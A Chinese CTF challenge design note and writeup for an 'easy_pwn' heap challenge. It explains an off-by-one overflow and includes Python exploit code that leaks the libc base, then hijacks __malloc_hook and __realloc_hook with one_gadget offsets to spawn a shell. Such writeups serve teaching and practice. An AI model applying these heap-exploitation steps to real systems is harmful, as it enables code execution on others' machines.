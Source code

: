 # 赛题设计说明

## 题目信息：

- 题目名称：easy_pwn
- 预估难度：中等 （简单/中等偏易/中等偏难/困难）
- 编译命令：gcc -z noexecstack -fstack-protector-all -z now -fPIE -pie -s -o easy_pwn easy_pwn.c

## 题目描述：

> 真实的easy_pwn

## 题目考点：

1.fastbin attack
2.malloc hook attack
3.realloc hook attack
4.off-by-one
5.overlap

## 思路简述：

一个常规的堆溢出题，palygame 函数处可以多填充一个字节，造成堆溢出，改写 size，制造 fake chunk，然后 free small chunk，泄露 main_arena 偏移，进而泄露 libc 基地址，在利用 fake chunk 进行 fastbin attack，劫持 malloc hook 和 realloc hook，malloc hook 处用 libc_realloc 加一个适当小偏移覆盖，realloc hook 处用 one gadget 覆盖，再执行 calloc 即可 getshell

## 题目提示：

1. 堆溢出
2. fastbin attack
3. off-by-one
4. play_game 函数存在 off-by-one 长度的漏洞
5. 劫持 malloc hook 和 realloc hook

## 题目环境：

1. Ubuntu 16.04 LTS
2. xinetd + chroot

## 题目 writeup：

1. 检查题目保护，发现保护全开

![1](./img/1.jpg)

2.使用 ida 分析，可以发现，里面存在一个堆结构，将堆结构导入
![2](./img/2.jpg)

```shell
    struct tickets{
        int flag;
        int size;
        void *ticket_start;
    };
```

![2](./img/3.jpg)

3.逆向发现大循环中的第二个函数(sub_E53())中的函数中，sub_E07()函数的返回值 v4 可以比申请的堆的 size 多 1 个字节，而 sub_D73()函数向堆里面写入 v4 长度的内容，因此可以造成 off-by-one。

![3](./img/4.JPG)

![3](./img/5.JPG)

4.通过 off-by-one 漏洞制造 fake size，进而获得 fake chunk，然后 free samll chunk 获取 main_arena 中的地址，由于没有提供 libc 版本，此处需要自己根据泄露出来的地址确定 libc 版本，泄露出来的地址与 main_arena 起始地址的偏移为 0x58，因此泄露出来的地址减去 0x58，可以得到 main_arena 起始地址，根据 main_arena 起始地址减去 0x10 可以得到**malloc_hook 的地址，根据**malloc_hook 地址的后三位的偏移 b10 可以确定 libc 版本为 2.23

制造 fake chunk 的代码如下：

```shell
    gettickets(0x58) #0
    gettickets(0x40) #1
    payload=p64(0)*11+p8(0x71)
    length=len(payload)+9

    palygame(0,payload,length)

    gettickets(0x80) #2
    payload1=p64(0)*3+p64(0x71)
    length=len(payload1)
    palygame(2,payload1,length)
    gameover(1)

    gettickets(0x60) #1
    payload2=p64(0)*9+p8(0x91)
    length=len(payload2)
    palygame(1,payload2,length)
    gettickets(0x50) #3
    gameover(2)

    leak=u64(lookticket(1)[-8:-1].strip().ljust(8,'\x00'))
    print "malloc hook addr = "+ hex(leak-0x68)
    #确定libc为2.23，libc基址与main_arena起始地址偏移为0x3c4b20
    libc_base=leak-0x3c4b78
    print hex(libc_base)
```

![4](./img/6.JPG)

5.泄露出来 libc 基址后，利用 fake chunk 进行 fastbin attack，从而劫持 malloc hook 和 realloc hook，最后 getshell

```shell
    gettickets(0x60)#2
    gameover(2)

    print "malloc hook = "+hex(libc_base + e.symbols["__malloc_hook"]-0x23)
    payload=p64(libc_base+0x3c4aed)
    #payload = p64(libc_base + e.symbols["__mgettickets_hook"]-0x23)
    palygame(1,"a"*0x48+p64(0x71)+payload,0x58)
    #raw_input()
    gettickets(0x60)#4
    gettickets(0x60)#5
    one = [0x4526a,0x45216,0xf02a4,0xf1147]
    payload = "\x00"*0xb  #p8(f)*3
    payload += p64(libc_base + one[3]) #
    payload += p64(libc_base + 0x846c0+0x4)
    #payload += p64(libc_base + e.symbols["__libc_realloc"]+0x4)
    palygame(4,payload+"\x00"*0x10,len(payload)+0x10)

    # print "regettickets hook = "+hex(e.symbols["__regettickets_hook"])
    # print "libc regettickets= "+hex(e.symbols["__libc_regettickets"])
    gettickets(0x10)
    #gettickets(0x1000)

    p.interactive()
```
